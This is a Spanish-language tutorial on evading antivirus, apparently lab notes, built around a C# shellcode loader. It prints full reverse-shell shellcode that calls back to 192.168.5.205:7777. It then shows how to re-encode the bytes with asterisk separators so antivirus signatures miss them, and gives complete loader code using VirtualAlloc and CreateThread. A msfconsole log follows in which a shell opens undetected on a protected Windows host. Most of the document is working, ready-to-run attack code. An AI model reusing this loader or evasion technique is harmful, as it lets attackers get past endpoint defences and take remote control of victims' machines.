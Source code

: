 ```yaml
---
icon: virus-covid-slash
---
```


# Evasión de antivirus con C - Parte 2

Siguiendo el codigo en `C#` de la parte anterior igualmente ese codigo lo puede seguir detectando algunos antivirus, ya que el `payload` que hemos utilizado lo hemos pegado directamente sin realizar ninguna modificacion al mismo, por eso el poder ser detectados, por lo que vamos a realizar alguna modificacion de la siguiente forma:

En este caso vamos a utilizar el editor de archivos llamado `emacs` para que todo esto vaya de forma mas automatizada:

```shell
emacs
```

Una vez dentro abriremos una nueva hoja y pegaremos el siguiente `payload` del codigo anterior:

```
0xfc,0xe8,0x8f,0x00,0x00,0x00,
0x60,0x31,0xd2,0x89,0xe5,0x64,0x8b,0x52,0x30,0x8b,0x52,0x0c,
0x8b,0x52,0x14,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x8b,0x72,0x28,
0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,
0x01,0xc7,0x49,0x75,0xef,0x52,0x57,0x8b,0x52,0x10,0x8b,0x42,
0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x01,0xd0,
0x8b,0x48,0x18,0x8b,0x58,0x20,0x50,0x01,0xd3,0x85,0xc9,0x74,
0x3c,0x49,0x31,0xff,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xc0,0xac,
0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,0x7d,0xf8,
0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,
0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,
0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,
0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,
0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,
0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,
0x00,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,
0x6a,0x0a,0x68,0xc0,0xa8,0x05,0xcd,0x68,0x02,0x00,0x1e,0x61,
0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,
0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,
0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,
0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,
0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,
0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,
0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,
0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,
0x00,0x7d,0x28,0x58,0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,
0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,
0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,0x70,0xff,
0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,
0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5
```

Seleccionamos todo el `payload` y haremos `Alt+M` -> pondremos `replace-string` -> pondremos `0x` -> `ENTER` -> pondremos `*` -> `ENTER`.

Y con esto habremos reemplazado todos los `0x` por un `*`:

```
*fc,*e8,*8f,*00,*00,*00,
*60,*31,*d2,*89,*e5,*64,*8b,*52,*30,*8b,*52,*0c,
*8b,*52,*14,*0f,*b7,*4a,*26,*31,*ff,*8b,*72,*28,
*31,*c0,*ac,*3c,*61,*7c,*02,*2c,*20,*c1,*cf,*0d,
*01,*c7,*49,*75,*ef,*52,*57,*8b,*52,*10,*8b,*42,
*3c,*01,*d0,*8b,*40,*78,*85,*c0,*74,*4c,*01,*d0,
*8b,*48,*18,*8b,*58,*20,*50,*01,*d3,*85,*c9,*74,
*3c,*49,*31,*ff,*8b,*34,*8b,*01,*d6,*31,*c0,*ac,
*c1,*cf,*0d,*01,*c7,*38,*e0,*75,*f4,*03,*7d,*f8,
*3b,*7d,*24,*75,*e0,*58,*8b,*58,*24,*01,*d3,*66,
*8b,*0c,*4b,*8b,*58,*1c,*01,*d3,*8b,*04,*8b,*01,
*d0,*89,*44,*24,*24,*5b,*5b,*61,*59,*5a,*51,*ff,
*e0,*58,*5f,*5a,*8b,*12,*e9,*80,*ff,*ff,*ff,*5d,
*68,*33,*32,*00,*00,*68,*77,*73,*32,*5f,*54,*68,
*4c,*77,*26,*07,*89,*e8,*ff,*d0,*b8,*90,*01,*00,
*00,*29,*c4,*54,*50,*68,*29,*80,*6b,*00,*ff,*d5,
*6a,*0a,*68,*c0,*a8,*05,*cd,*68,*02,*00,*1e,*61,
*89,*e6,*50,*50,*50,*50,*40,*50,*40,*50,*68,*ea,
*0f,*df,*e0,*ff,*d5,*97,*6a,*10,*56,*57,*68,*99,
*a5,*74,*61,*ff,*d5,*85,*c0,*74,*0a,*ff,*4e,*08,
*75,*ec,*e8,*67,*00,*00,*00,*6a,*00,*6a,*04,*56,
*57,*68,*02,*d9,*c8,*5f,*ff,*d5,*83,*f8,*00,*7e,
*36,*8b,*36,*6a,*40,*68,*00,*10,*00,*00,*56,*6a,
*00,*68,*58,*a4,*53,*e5,*ff,*d5,*93,*53,*6a,*00,
*56,*53,*57,*68,*02,*d9,*c8,*5f,*ff,*d5,*83,*f8,
*00,*7d,*28,*58,*68,*00,*40,*00,*00,*6a,*00,*50,
*68,*0b,*2f,*0f,*30,*ff,*d5,*57,*68,*75,*6e,*4d,
*61,*ff,*d5,*5e,*5e,*ff,*0c,*24,*0f,*85,*70,*ff,
*ff,*ff,*e9,*9b,*ff,*ff,*ff,*01,*c3,*29,*c6,*75,
*c1,*c3,*bb,*f0,*b5,*a2,*56,*6a,*00,*53,*ff,*d5
```

Ahora vamos a quitar las `,` haciendo lo mismo que antes, pero en esta parte donde nos da a elegir 2 opciones pondremos primero donde habiamos puesto el `0x` pondremos una `,` y en la segunda parte donde pusimos el `*` pondremos nada para dejarlo vacio y que se eliminen, quedando algo asi:

```
*fc*e8*8f*00*00*00
*60*31*d2*89*e5*64*8b*52*30*8b*52*0c
*8b*52*14*0f*b7*4a*26*31*ff*8b*72*28
*31*c0*ac*3c*61*7c*02*2c*20*c1*cf*0d
*01*c7*49*75*ef*52*57*8b*52*10*8b*42
*3c*01*d0*8b*40*78*85*c0*74*4c*01*d0
*8b*48*18*8b*58*20*50*01*d3*85*c9*74
*3c*49*31*ff*8b*34*8b*01*d6*31*c0*ac
*c1*cf*0d*01*c7*38*e0*75*f4*03*7d*f8
*3b*7d*24*75*e0*58*8b*58*24*01*d3*66
*8b*0c*4b*8b*58*1c*01*d3*8b*04*8b*01
*d0*89*44*24*24*5b*5b*61*59*5a*51*ff
*e0*58*5f*5a*8b*12*e9*80*ff*ff*ff*5d
*68*33*32*00*00*68*77*73*32*5f*54*68
*4c*77*26*07*89*e8*ff*d0*b8*90*01*00
*00*29*c4*54*50*68*29*80*6b*00*ff*d5
*6a*0a*68*c0*a8*05*cd*68*02*00*1e*61
*89*e6*50*50*50*50*40*50*40*50*68*ea
*0f*df*e0*ff*d5*97*6a*10*56*57*68*99
*a5*74*61*ff*d5*85*c0*74*0a*ff*4e*08
*75*ec*e8*67*00*00*00*6a*00*6a*04*56
*57*68*02*d9*c8*5f*ff*d5*83*f8*00*7e
*36*8b*36*6a*40*68*00*10*00*00*56*6a
*00*68*58*a4*53*e5*ff*d5*93*53*6a*00
*56*53*57*68*02*d9*c8*5f*ff*d5*83*f8
*00*7d*28*58*68*00*40*00*00*6a*00*50
*68*0b*2f*0f*30*ff*d5*57*68*75*6e*4d
*61*ff*d5*5e*5e*ff*0c*24*0f*85*70*ff
*ff*ff*e9*9b*ff*ff*ff*01*c3*29*c6*75
*c1*c3*bb*f0*b5*a2*56*6a*00*53*ff*d5
```

Ahora solo tendremos que quitar todos los saltos de linea para que quede todo en una unica linea y le pondremos `"` al principio y final de la siguiente forma:

```
"fc*e8*8f*00*00*00*60*31*d2*89*e5*64*8b*52*30*8b*52*0c*8b*52*14*0f*b7*4a*26*31*ff*8b*72*28*31*c0*ac*3c*61*7c*02*2c*20*c1*cf*0d*01*c7*49*75*ef*52*57*8b*52*10*8b*42*3c*01*d0*8b*40*78*85*c0*74*4c*01*d0*8b*48*18*8b*58*20*50*01*d3*85*c9*74*3c*49*31*ff*8b*34*8b*01*d6*31*c0*ac*c1*cf*0d*01*c7*38*e0*75*f4*03*7d*f8*3b*7d*24*75*e0*58*8b*58*24*01*d3*66*8b*0c*4b*8b*58*1c*01*d3*8b*04*8b*01*d0*89*44*24*24*5b*5b*61*59*5a*51*ff*e0*58*5f*5a*8b*12*e9*80*ff*ff*ff*5d*68*33*32*00*00*68*77*73*32*5f*54*68*4c*77*26*07*89*e8*ff*d0*b8*90*01*00*00*29*c4*54*50*68*29*80*6b*00*ff*d5*6a*0a*68*c0*a8*05*cd*68*02*00*1e*61*89*e6*50*50*50*50*40*50*40*50*68*ea*0f*df*e0*ff*d5*97*6a*10*56*57*68*99*a5*74*61*ff*d5*85*c0*74*0a*ff*4e*08*75*ec*e8*67*00*00*00*6a*00*6a*04*56*57*68*02*d9*c8*5f*ff*d5*83*f8*00*7e*36*8b*36*6a*40*68*00*10*00*00*56*6a*00*68*58*a4*53*e5*ff*d5*93*53*6a*00*56*53*57*68*02*d9*c8*5f*ff*d5*83*f8*00*7d*28*58*68*00*40*00*00*6a*00*50*68*0b*2f*0f*30*ff*d5*57*68*75*6e*4d*61*ff*d5*5e*5e*ff*0c*24*0f*85*70*ff*ff*ff*e9*9b*ff*ff*ff*01*c3*29*c6*75*c1*c3*bb*f0*b5*a2*56*6a*00*53*ff*d5"
```

Ahora el codigo modificado quedaria de la siguiente forma:

```cs
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;

namespace WIn32

{
    class Program
    {

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]

        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]

        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddess, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]

        static extern UInt32 WaitForSingleObject(IntPtr hHandler, UInt32 dwMilliseconds);

        static void Main (string[] args)
        {

            string payload = "fc*e8*8f*00*00*00*60*31*d2*89*e5*64*8b*52*30*8b*52*0c*8b*52*14*0f*b7*4a*26*31*ff*8b*72*28*31*c0*ac*3c*61*7c*02*2c*20*c1*cf*0d*01*c7*49*75*ef*52*57*8b*52*10*8b*42*3c*01*d0*8b*40*78*85*c0*74*4c*01*d0*8b*48*18*8b*58*20*50*01*d3*85*c9*74*3c*49*31*ff*8b*34*8b*01*d6*31*c0*ac*c1*cf*0d*01*c7*38*e0*75*f4*03*7d*f8*3b*7d*24*75*e0*58*8b*58*24*01*d3*66*8b*0c*4b*8b*58*1c*01*d3*8b*04*8b*01*d0*89*44*24*24*5b*5b*61*59*5a*51*ff*e0*58*5f*5a*8b*12*e9*80*ff*ff*ff*5d*68*33*32*00*00*68*77*73*32*5f*54*68*4c*77*26*07*89*e8*ff*d0*b8*90*01*00*00*29*c4*54*50*68*29*80*6b*00*ff*d5*6a*0a*68*c0*a8*05*cd*68*02*00*1e*61*89*e6*50*50*50*50*40*50*40*50*68*ea*0f*df*e0*ff*d5*97*6a*10*56*57*68*99*a5*74*61*ff*d5*85*c0*74*0a*ff*4e*08*75*ec*e8*67*00*00*00*6a*00*6a*04*56*57*68*02*d9*c8*5f*ff*d5*83*f8*00*7e*36*8b*36*6a*40*68*00*10*00*00*56*6a*00*68*58*a4*53*e5*ff*d5*93*53*6a*00*56*53*57*68*02*d9*c8*5f*ff*d5*83*f8*00*7d*28*58*68*00*40*00*00*6a*00*50*68*0b*2f*0f*30*ff*d5*57*68*75*6e*4d*61*ff*d5*5e*5e*ff*0c*24*0f*85*70*ff*ff*ff*e9*9b*ff*ff*ff*01*c3*29*c6*75*c1*c3*bb*f0*b5*a2*56*6a*00*53*ff*d5";

            string[] temp_payload = payload.Split('*');

            byte[] payload_final = new byte[temp_payload.Length];

            for (int i = 0; i < temp_payload.Length; i++)
            {
                payload_final[i] = Convert.ToByte(temp_payload[i], 16);
            }

            Console.WriteLine();
            Console.ForegroundColor = ConsoleColor.Gray;
            Console.WriteLine("Iniciando sesion reversa");

            IntPtr funcAdrr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(payload_final, 0, funcAdrr, payload_final.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAdrr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xffffffff);

        }
    }

}
```

Lo que estamos haciendo en esta parte del codigo `string payload = "fc*e8*8f*00*....";` es definir el `payload` que hemos modificado separado por `*`.

Despues en esta otra parte del codigo `string[] temp_payload = payload.Split('*');` lo que estamos haciendo es que cuando encuentre un `*` lo separe/parta para que tengamos una cadenas de `bytes`.

En esta parte `byte[] payload_final = new byte[temp_payload.Length];` simplemente estamos definiendo un `array` para posteriormente poder utilizarlo con el `payload`.

En el `bucle for` lo que estamos haciendo es que va recorriendo cada uno de los `strings` del `payload` que hemos modificado para poder convertir cada uno de los `*` en `bytes`.

La diferencia de todo esto es que la firma que llevaba antes de `msfvenom` era muy reconocible, pero ahora al crear nuestro propio `payload` es una firma propia, por lo que sera muy complicado de que un antivirus lo detecte actualmente.

Ahora vamos a volverlo a compilar y nos lo vamos a pasar a la maquina `WS02` el cual tiene el antivirus activado, cuando nos lo pasemos veremos que ni siquiera nos da un aviso de que pueda ser un `malware` por lo que esta funcionando de forma correcta, si nos volvemos a poner a la escucha en `msfconsole` con el `multi/handler` y ejecutamos el binario desde la maquina `WS02` y volvemos a donde tenemos la escucha:

```
[*] Started reverse TCP handler on 192.168.5.205:7777 
[*] Sending stage (240 bytes) to 192.168.5.209
[*] Command shell session 1 opened (192.168.5.205:7777 -> 192.168.5.209:52504) at 2025-02-06 04:07:26 -0500


Shell Banner:
Microsoft Windows [Versi_n 10.0.19045.3803]
(c) Microsoft Corporation. Todos los derechos reservados.

C:\Users\empleado2\Desktop>
-----
          

C:\Users\empleado2\Desktop>whoami
whoami
corp\empleado2
```

Veremos que efectivamente nos esta creando una `shell` sin ningun tipo de problema y sin que el antivirus detecte absolutamente nada.
